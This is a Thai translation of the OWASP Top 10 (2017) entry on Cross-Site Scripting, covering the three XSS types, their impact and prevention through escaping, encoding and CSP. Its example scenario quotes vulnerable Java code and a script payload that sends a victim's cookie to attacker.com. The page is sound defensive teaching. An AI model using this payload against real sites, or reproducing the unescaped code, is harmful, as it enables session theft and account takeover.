 # A7:2017 Cross-Site Scripting (XSS)

| ผู้โจมตี/ช่องทาง | จุดอ่อนด้านความปลอดภัย           | ผลกระทบ               |
| -- | -- | -- |
| การเข้าถึงช่องโหว่ : ความยากในการโจมตี 3 | แพร่กระจายง่าย 3 : ตรวจพบได้ง่าย 3 | ผลกระทบทางเทคนิค 2 : ผลกระทบทางธุรกิจ ? |
| โปรแกรมตรวจสอบช่องโหว่อัตโนมัติ สามารถใช้ตรวจจับและโจมตีช่องโหว่ประเภท XSS ได้ทั้งสามรูปแบบ (Reflected XSS, Stored XSS และ DOM XSS) พร้อมทั้งมี เฟรมเวิร์ค สำหรับโจมตีช่องโหว่นี้โดยเฉพาะแจกฟรีอีกด้วย เช่น BeEF (Browser Exploitation Framework) | ช่องโหว่ XSS แพร่กระจายได้มากเป็นอันดับสอง ใน OWASP Top 10 และพบว่าสองในสามส่วนของแอพพลิเคชั่นที่ถูกทดสอบความปลอดภัยมีช่องโหว่ XSS, โปรแกรมตรวจสอบช่องโหว่อัตโนมัติสามารถใช้หาช่องโหว่ XSS บางส่วนได้ โดยเฉพาะในเว็บเทคโนโลยีหลัก ๆ อย่าง PHP, J2EE / JSP และ ASP.NET | โดยทั่วไปผลกระทบของช่องโหว่ XSS มีความรุนแรงปานกลางสำหรับประเภท Reflected กับ DOM XSS และมีความรุนแรงสูงสำหรับประเภท Stored XSS ผลกระทบหลัก ๆ คือผู้โจมตีสามารถสั่งการทำงานฝั่ง client บน web browser ของเหยื่อได้ เช่นสามารถขโมยรหัสผ่านที่พิมพ์ หรืออ่านจากใน textfield, ขโมย user session หรือโจมตีเหยื่อด้วยมัลแวร์ที่เขียนจาก JavaScript |

## แอพพลิเคชั่นนี้มีช่องโหว่หรือไม่?

ช่องโหว่ XSS มีสามประเภท ซึ่งทั้งหมดนี้โจมตีไปที่ web browser ของเหยื่อ:

* **Reflected XSS**: เกิดจากแอพพลิเคชั่นหรือ API รับค่ามาจากผู้ใช้งานโดยไม่ได้ตรวจสอบมาแสดงผลเป็นหน้าเว็บ HTML ถ้าถูกโจมตีสำเร็จ ผู้โจมตีสามารถสั่งการทำงานด้วยโค้ด HTML และ JavaScript ใด ๆ บน web browser ของเหยื่อได้ตามต้องการ โดยปกติแล้ว XSS ประเภทนี้ เหยื่อจะต้องเข้า link หน้าเว็บที่ผู้โจมตีสร้างหรือใส่ HTTP parameter บนเว็บที่มีช่องโหว่ XSS แล้วส่งมาให้เหยื่อเปิด อาจใช้ร่วมกับการโจมตีแบบอื่นเช่น watering hole, การแพร่เว็บโฆษณา และอื่น ๆ 
* **Stored XSS**: เกิดจากแอพพลิเคชั่นหรือ API เก็บค่าที่รับมาจากผู้ใช้งานโดยไม่ได้ตรวจสอบแล้วนำมาแสดงผลในภายหลัง ให้ผู้ใช้งานหรือผู้ดูแลระบบเห็น โดยปกติแล้ว Stored XSS จัดว่าเป็นช่องโหว่ที่มีความรุนแรงสูงหรือร้ายแรงมาก
* **DOM XSS**: เฟรมเวิร์ค JavaScript , แอพพลิเคชั่นที่มีหน้าเดียว และ API ต่าง ๆ ที่รับค่าที่ผู้โจมตีควบคุมได้ส่งมาแสดงโดยไม่ได้ตรวจสอบ มาแสดงตอน JavaScript กำลังทำงานอยู่และค่าที่ผู้โจมตีส่งมาทำงานเป็น JavaScript เกิดขึ้นใน DOM จะเรียกได้ว่าเป็น DOM XSS 

ปกติแล้วการโจมตีแบ XSS ส่งผลให้ผู้โจมตีสามารถขโมย user session เหยื่อได้, ยึดบัญชีของเหยื่อได้, ข้ามผ่านการยืนยันตัวแบบ MFA (Multi-Factor Authentication), แก้ไขค่าใน DOM node บน HTML หรือแก้ไขหน้าเว็บ (เช่นสร้างหน้าล็อคอินปลอม), โจมตีผู้ใช้งานเว็บผ่าน web browser เช่นหลอกให้ดาวโหลดไฟล์มัลแวร์, ดักรหัสผ่านบนคีย์บอร์ด และการโจมตีประเภท client-side อื่น ๆ อีกมากมาย

## ป้องกันอย่างไร

การป้องกันช่องโหว่ XSS จะต้องทำการแยก ข้อมูลที่รับมาจากผู้ใช้งานออกจากโค้ด HTML และ JavaScript ที่ทำงานปกติในหน้าเว็บ ซึ่งสามารถทำได้โดย:

* ใช้เฟรมเวิร์คที่ทำการป้องกัน XSS มาให้ตอนแสดงค่าที่รับมาจากผู้ใช้งานอยู่แล้ว เช่นใน Ruby on Rails หรือ React JS เวอร์ชั่นล่าสุด และจำเป็นต้องศึกษาข้อจำกัดของเฟรมเวิร์คในการป้องกัน XSS พร้อมทั้งวิธีการจัดการค่าที่รับเข้ามาในกรณีที่เฟรมเวิร์คไม่ได้ครอบคลุมในจุดนั้น ๆ
* แปลงค่าที่รับเข้ามาผ่าน HTTP request ให้เหมาะสมกับส่วนที่นำไปแสดงผลของหน้าเว็บ (เช่นในส่วนของ body, attribute, JavaScript, CSS, หรือ URL) จะช่วยแก้ปัญหาช่องโหว่ XSS ได้ เพิ่มเติมคือในเอกสาร [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) มีบอกรายละเอียดว่ารับค่าเข้ามาแสดงที่ส่วนไหน จะต้องใช้เทคนิคแปลงค่าใด
* เมื่อมีการแก้ไขข้อมูลบนหน้าเว็บผ่าน JavaScript จะต้องทำการแปลงค่าอย่างปลอดภัยซึ่งจะแตกต่างกันตามแต่ส่วนที่นำไปแสดง เพื่อป้องกัน DOM XSS ถ้าไม่สามารถแปลงได้ ให้ใช้เทคนิคอื่น ๆ ที่อธิบายไว้ในเอกสาร  [OWASP Cheat Sheet 'DOM based XSS Prevention'](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* เปิดใช้งานฟีเจอร์ [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) ซึ่งเป็นการป้องกัน XSS โดยใช้หลักการของ defense-in-depth, ถ้าใช้อย่างถูกวิธี จะป้องกัน XSS ได้ในกรณีที่ไม่มีช่องโหว่อื่น ๆ ที่ทำให้ผู้โจมตีสามารถใส่โค้ดอันตรายผ่านการนำไฟล์มาแสดงผลบนหน้าเว็บได้ (เช่น path traversal ที่เปลี่ยนที่อยู่ของไฟล์ JavaScript ที่นำมาใช้งานหรือผู้โจมตีสามารถแก้ไขค่าไฟล์บนเซิร์ฟเวอร์ที่ค่าใน CSP ยอมให้เรียกโค้ดมาใช้ได้) 

## ตัวอย่างของกระบวนการโจมตี

**Scenario #1**: กรณีที่แอพพลิเคชั่นรับค่าจากผู้ใช้งานโดยไม่ได้ตรวจสอบหรือแปลงให้ปลอดภัยแล้วนำมาแสดงบนหน้าเว็บโดยตรงจากโค้ดภาษา Java ต่อไปนี้:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
ผู้โจมตีสามารถแก้ไขค่า HTTP parameter ชื่อ CC ผ่าน web browser ไปเป็นค่า:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

แล้วส่ง link ไปให้เหยื่อเปิด การทำแบบนี้เป็นการใส่ JavaScript เพื่อโจมตีทำให้ session ID ที่อยู่ใน cookie ของ web browser ของเหยื่อที่เปิด link ถูกส่งไปยังเว็บของผู้โจมตี ส่งผลให้ ผู้โจมตีสามารถข้ามผ่านการล็อคอินเข้าไปเป็น user session ของเหยื่อได้

**ข้อสังเกต**: ถ้าเกิดในแอพพลิเคชั่นมีช่องโหว่ XSS ผู้โจมตีสามารถโจมตี XSS เพื่อข้ามผ่านการป้องกันของช่องโหว่ CSRF ใด ๆ และทำการโจมตีแบบ CSRF ต่อได้

## อ้างอิง

### จาก OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### จากแหล่งอื่น

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
